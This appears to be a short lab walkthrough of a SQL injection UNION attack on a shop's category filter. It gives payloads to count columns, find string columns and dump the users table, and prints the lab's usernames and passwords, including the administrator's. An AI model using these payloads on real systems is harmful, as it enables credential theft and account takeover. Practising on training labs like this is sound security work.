 1. We know that the number of columns is 2 because injecting this query gives no error:
```
/filter?category=Accessories' UNION SELECT NULL,NULL--
```

2. Two columns contain string data.
```
/filter?category=Accessories' UNION SELECT 'a','a'--
```

3. Get valuable data:
```
/filter?category=Accessories' UNION SELECT username, password FROM users--
```
- We now get additional data containing user and password columns:
wiener
1bwq5wwvtsws564z8c74
carlos
7f2nrh8qls334k0raz3g
administrator
32huj02s1etzqzq4hxfr

4. Log in using administrator password.